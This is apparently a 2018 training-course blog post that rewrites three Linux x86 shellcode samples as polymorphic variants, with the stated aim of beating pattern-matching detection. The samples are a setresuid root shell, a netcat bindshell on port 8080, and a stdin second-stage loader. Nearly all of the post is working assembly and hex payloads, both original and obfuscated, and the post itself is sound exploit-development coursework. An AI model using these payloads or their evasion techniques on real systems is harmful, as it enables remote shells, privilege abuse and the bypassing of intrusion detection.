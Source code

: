 ```yaml
---
layout: single
title: Creating Polymorphic Shellcode
date: 2018-09-21
categories:
  - security
  - shellcoding
tags:
  - securitytube
  - slae
---
```


Assignment 6 of the [SecurityTube Linux Assembly Expert Certification](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/) consists of taking three shellcode samples from [shell-storm.org](http://shell-storm.org/) and creating polymorphic examples that are no larger than 150% the original size.

The goal of this task is to mimic the same original functionality, but to beat pattern matching techniques that could be used to fingerprint the payload.

Below are the three samples that I chose to use and the polymorphic version of each that I created.

Sample 1: setresuid(0,0,0)-/bin/sh
----------------------------------
* **Original length:** 35 bytes
* **Polymorphic length:** 51 bytes (45% increase)
* **Source:** [http://shell-storm.org/shellcode/files/shellcode-216.php](http://shell-storm.org/shellcode/files/shellcode-216.php)

**Original code:**
```nasm
;setresuid(0,0,0)
xor eax, eax
xor ebx, ebx
xor ecx, ecx
cdq
mov BYTE al, 0xa4
int 0x80

;execve("/bin//sh", ["/bin//sh", NULL], [NULL])
push BYTE 11
pop eax
push ecx
push 0x68732f2f
push 0x6e69622f
mov ebx, esp
push ecx
mov edx, esp
push ebx
mov ecx, esp
int 0x80
```

```
\x31\xc0\x31\xdb\x31\xc9\x99\xb0\xa4\xcd\x80\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89\xe1\xcd\x80
```

**Polymorphic code:**
```nasm
global _start

section .text
  _start:
    ; setresuid(0,0,0)
    lea     eax, [0xab32a1a5]
    sub     eax, 0xab32a101
    cdq
    mov     ebx, edx
    mov     ecx, ebx
    int     0x80

    ; execve("/bin//sh", ["/bin//sh", NULL], [NULL])
    push    ebx
    xor     eax, eax
    mov     al, 0xb
    mov     edi, 0xd34db3ef
    mov     ebx, 0xbb3e9cc0
    xor     ebx, edi
    push    ebx
    mov     ebx, 0xbd24d1c0
    xor     ebx, edi
    push    ebx
    push    edx
    lea     ebx, [esp + 4]
    int     0x80
```

```
\x8d\x05\xa5\xa1\x32\xab\x2d\x01\xa1\x32\xab\x99\x89\xd3\x89\xd9\xcd\x80\x53\x31\xc0\xb0\x0b\xbf\xef\xb3\x4d\xd3\xbb\xc0\x9c\x3e\xbb\x31\xfb\x53\xbb\xc0\xd1\x24\xbd\x31\xfb\x53\x52\x8d\x5c\x24\x04\xcd\x80
```

Sample 2: netcat bindshell port 8080
------------------------------------
* **Original length:** 75 bytes
* **Polymorphic length:** 85 bytes (13% increase)
* **Source:** [http://shell-storm.org/shellcode/files/shellcode-684.php](http://shell-storm.org/shellcode/files/shellcode-684.php)

**Original code:**
```
00000000  EB2A              jmp short 0x2c
00000002  5E                pop esi
00000003  31C0              xor eax,eax
00000005  884607            mov [esi+0x7],al
00000008  88460F            mov [esi+0xf],al
0000000B  884619            mov [esi+0x19],al
0000000E  89761A            mov [esi+0x1a],esi
00000011  8D5E08            lea ebx,[esi+0x8]
00000014  895E1E            mov [esi+0x1e],ebx
00000017  8D5E10            lea ebx,[esi+0x10]
0000001A  895E22            mov [esi+0x22],ebx
0000001D  894626            mov [esi+0x26],eax
00000020  B00B              mov al,0xb
00000022  89F3              mov ebx,esi
00000024  8D4E1A            lea ecx,[esi+0x1a]
00000027  8D5626            lea edx,[esi+0x26]
0000002A  CD80              int 0x80
0000002C  E8D1FFFFFF        call 0x2
00000031  2F                das
00000032  62696E            bound ebp,[ecx+0x6e]
00000035  2F                das
00000036  6E                outsb
00000037  6323              arpl [ebx],sp
00000039  2D6C703830        sub eax,0x3038706c
0000003E  3830              cmp [eax],dh
00000040  232D652F6269      and ebp,[dword 0x69622f65]
00000046  6E                outsb
00000047  2F                das
00000048  7368              jnc 0xb2
0000004A  23                db 0x23
```

```
\xeb\x2a\x5e\x31\xc0\x88\x46\x07\x88\x46\x0f\x88\x46\x19\x89\x76\x1a\x8d\x5e\x08\x89\x5e\x1e\x8d\x5e\x10\x89\x5e\x22\x89\x46\x26\xb0\x0b\x89\xf3\x8d\x4e\x1a\x8d\x56\x26\xcd\x80\xe8\xd1\xff\xff\xff\x2f\x62\x69\x6e\x2f\x6e\x63\x23\x2d\x6c\x70\x38\x30\x38\x30\x23\x2d\x65\x2f\x62\x69\x6e\x2f\x73\x68\x23
```

**Polymorphic code:**
```nasm
global _start

section .text
  _start:
    mov   edi, 0x01010101
    mov   ecx, edi
    xor   ecx, edi

    push  0x01010169
    push  0x722e6f68
    push  0x632e642c
    push  0x01303931
    push  0x39716d2c
    push  0x01626f2e
    push  0x6f68632e
    push  edi

    mov   cl, 0x8
    mov   bl, 0x4

  decode:
    mov   eax, ecx
    sub   eax, 0x1
    mul   ebx
    xor   [esp + eax], edi
    loop  decode

    mov   al, 0xc
    sub   al, 0x1
    lea   ebx, [esp + 0x4]
    lea   edx, [ebx + 0x8]
    push  edx
    lea   edx, [ebx + 0x10]
    push  edx
    push  ebx
    lea   ecx, [esp]
    xor   edx, edx
    int   0x80
```

```
\xbf\x01\x01\x01\x01\x89\xf9\x31\xf9\x68\x69\x01\x01\x01\x68\x68\x6f\x2e\x72\x68\x2c\x64\x2e\x63\x68\x31\x39\x30\x01\x68\x2c\x6d\x71\x39\x68\x2e\x6f\x62\x01\x68\x2e\x63\x68\x6f\x57\xb1\x08\xb3\x04\x89\xc8\x83\xe8\x01\xf7\xe3\x31\x3c\x04\xe2\xf4\xb0\x0c\x2c\x01\x8d\x5c\x24\x04\x8d\x53\x08\x52\x8d\x53\x10\x52\x53\x8d\x0c\x24\x31\xd2\xcd\x80
```

Sample 3: stager that reads second stage shellcode (127 bytes maximum) from stdin
----------------------------------------------------------------------------------
* **Original length:** 14 bytes
* **Polymorphic length:** 18 bytes (28% increase)
* **Source:** [http://shell-storm.org/shellcode/files/shellcode-824.php](http://shell-storm.org/shellcode/files/shellcode-824.php)

**Original code:**
```c
/*
 * (linux/x86) stagger that reads second stage shellcode (127 bytes maximum) from stdin - 14 bytes
 * _fkz / twitter: @_fkz
 *
 * sc = "\x6A\x7F\x5A\x54\x59\x31\xDB\x6A\x03\x58\xCD\x80\x51\xC3"
 *
 * Example of use:
 * (echo -ne "\xseconde stage shellcode\x"; cat) | ./stager
 */

 char shellcode[] =

 		"\x6A\x7F"		//	push	byte	+0x7F
 		"\x5A"			//	pop		edx
 		"\x54"			//	push	esp
 		"\x59"			//	pop		esp
 		"\x31\xDB"		//	xor		ebx,ebx
 		"\x6A\x03"		//	push	byte	+0x3
 		"\x58"			//	pop		eax
 		"\xCD\x80"		//	int		0x80
 		"\x51"			//	push	ecx
 		"\xC3";			//	ret

int main(int argc, char *argv[])
{
	void (*execsh)() = (void *)&shellcode;
	execsh();
	return 0;
}
```

**Polymorphic code:**
```nasm
global _start

section .text
  _start:
    lea   ecx, [esp]
    xor   eax, eax
    cdq
    mov   ebx, edx
    mov   eax, ebx
    mov   al, 0x3
    mov   dl, 0x7f
    int   0x80
    call  ecx
```

```
\x8d\x0c\x24\x31\xc0\x99\x89\xd3\x89\xd8\xb0\x03\xb2\x7f\xcd\x80\xff\xd1
```

<hr />

This blog post has been created for completing the requirements of the [SecurityTube Linux Assembly Expert certification](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/).

Student ID: SLAE-1340

All source files can be found on GitHub at [https://github.com/rastating/slae](https://github.com/rastating/slae)
